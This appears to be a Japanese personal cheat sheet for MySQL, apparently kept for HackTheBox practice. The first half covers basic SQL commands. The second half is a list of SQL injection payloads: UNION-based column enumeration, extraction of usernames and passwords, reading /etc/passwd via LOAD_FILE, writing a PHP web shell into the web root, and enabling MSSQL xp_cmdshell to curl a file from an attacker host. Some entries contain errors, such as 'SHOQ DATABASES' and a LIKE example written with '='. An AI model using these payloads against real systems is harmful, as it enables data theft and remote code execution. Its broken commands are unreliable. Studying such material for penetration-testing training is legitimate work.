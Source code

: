 # SQL
- SQLのcheat sheet。


## コマンド集
1. ユーザ名とパスワードを指定してDBへの認証を行う。このとき、-pの後ろに空白は必要ない。  
ただしここで-pによる認証を行うと.bash_historyファイルに平文でパスワードが保存される。なのでコマンドラインから直接入力するべきではない。
```.sql
mysql -u root -p<password>
```

2. ホストとポートを指定して認証を行う。
```.sql
mysql -u root -h docker.hackthebox.eu -P 3306 -p
```

3. hogeという名前のDBを新規で作成する。
```.sql
CREATE DATABASE hoge;
```

4. DBの一覧を表示する。
```.sql
SHOQ DATABASES;
```

5. DBを指定してそのDBとの対話セッションに入る。
```.sql
USE hoge;
```

6. loginsという名前のテーブルを新規で作成する。  
各列、つまりカラムは、見出しの名前(id等)とデータの型を記載する。(INTとか)  
ここでは4つの列を持っており、VARCHAR(100)で、100文字の文字列という意味になる。
```.sql
CREATE TABLE logins (
    id INT,
    username VARCHAR(100),
    password VARCHAR(100),
    date_of_joining DATETIME
    );
```  
  
また、CREATE TABLEで新規でテーブルを作成するとき、プロパティを付与することで様々なオプションが可能。  
例として以下などがあり、NOT NULLをプロパティに含めると、必須のフィールドにNULLが含まれないようになったりする。
```.sql
CREATE TABLE logins (
    id INT,
    username VARCHAR(100) UNIQUE NOT NULL
    );
```

7. 現在のDBに格納されているテーブルを一覧表示する。
```.sql
SHOW TABLES;
```

8. テーブルを指定し、そのテーブルの構造とフィールド・データ型を一覧で表示する。
```.sql
DESCRIBE logins;
```

9. INSERT INTOステートメントによって、table_nameに新しいレコード(VALUES以降)を追加する。
```.sql
INSERT INTO table_name VALUES (1, 'admin', 'p@ssw0rd'...);
```

10. SELECTステートメントで、テーブルから全てのデータを取得する。
```.sql
SELECT * FROM table_name;
```

11. カラム(列のこと)を指定してtable_nameからデータを取得する。
```.sql
SELECT column1, column2 FROM table_name;
```

12. DROPステートメントで、サーバからloginsテーブルを削除する。
```.sql
DROP TABLE logins;
```

13. ALTERステートメントで、既存のloginsテーブルにnewColumnというカラムを追加する。
```.sql
ALTER TABLE logins ADD newColumn INT;
```

14. UPDATEステートメントで、特定の条件に基づいてテーブル内の特定のレコードを更新する。
```.sql
UPDATE table_name SET password = 'change_password' WHERE id > 1;
```

15. ORDER BYでpassword列を指定して並べ替える。
```.sql
SELECT * FROM table_name ORDER BY password;
```

16. WHEREで結果をフィルタする。
```.sql
SELECT * FROM table_name WHERE id > 1;
```

```.sql
SELECT * FROM table_name WHERE username = 'admin';
```

17. LIKEでWHEREによる条件指定をするときに、カラムに含まれる値を正規表現で指定できる。  
以下では、adminで始まる値あusernameカラムにあればそれを取得する。
```.sql
SELECT * FROM table_name WHERE username = 'admin%';
```

18. ()を使ってidのカラムが5のもののみを取得するSQLi
```.sql
') OR (id=5) -- 
```

19. UNION Injectionをするにあたり、ORDER BYによってテーブルのカラム数を特定する。  
ORDER BYの後ろの1は列宇数で、以下の場合だと1列目をソートしている。--の後ろの-は、--の後ろに空白を入れる必要があるのでそれを分かりやすくするために書いている。
```.sql
' ORDER BY 1 -- -
```

20. ORDER BYではなくUNIONによってUNION Injectionに使うカラム数を特定する。
```.sql
' UNION SELECT 1,2,3,4 -- -
```

21. UNIONでカラムが4つとわかった時、JUNKデータとして適当な数字ではなく、DBのバージョンとユーザ名を表示させる。
```.sql
' UNION SELECT 1,@@version,3,user() -- -
```

22. カラム名とテーブル名、データベース名をそれぞれ取得する。@@versionみたいなもの。
```.sql
' UNION SELECT 1,COLUMN_NAME,TABLE_NAME,TABLE_SCHEMA FROM INFORMATION_SCHEMA.COLUMNS WHERE table_name='users'-- -
```

23. ilfreightというDBのusersというテーブルからusenameとpasswordというカラムを取得する。  
別のDB内のテーブルからデータを取得できるのがUNIONのメリット。
```.sql
' UNION SELECT 1, username, password, 4 from ilfreight.users -- -
```

24. UNIONを使って、ユーザ名を取得できる。
```.sql
' UNION SELECT 1, user(), 3, 4-- -
```

25. CURRENT_USER()を使えば現在のユーザ名を取得できる。
```.sql
' UNION SELECT 1, CURRENT_USER(), 3, 4-- -
```

26. LOAD_FILEを使ってファイルを読み取る。権限があるときだけ可能。
```.sql
cn' UNION SELECT 1, LOAD_FILE("/etc/passwd"), 3, 4-- -
```

27. secure_file_privをチェックして書き込み権限があるかをチェックする。
```.sql
SHOW VARIABLES LIKE 'secure_file_priv';
```

28. INTO OUTFILEで指定した場所にfrom usersの結果を書き込む。
```.sql
' UNION SELECT 1, variable_name, variable_value, 4 FROM information_schema.global_variables where variable_name="secure_file_priv"-- -
```

29. 任意の値をOUTFILEで指定した場所に書き込む。
```.sql
SELECT 'hogehoge' INTO OUTFILE '/tmp/test.txt';
```

30. PHPのwebshellを書き込む。
```.sql
cn' union select "",'<?php system($_REQUEST[0]); ?>', "", "" into outfile '/var/www/html/shell.php'-- -
```

31. MSSQLでRCEを実行できるようにするための設定をWebからおこなってコマンド実行
```
 ' EXECUTE sp_configure "show advanced option", 1; RECONFIGURE; -- -
 ' EXECUTE sp_configure "xp_cmdshell", 1; RECONFIGURE; --
 ' EXECUTE xp_cmdshell "curl <Kali IP> -o C:\Users\Public\test" ; --
 ```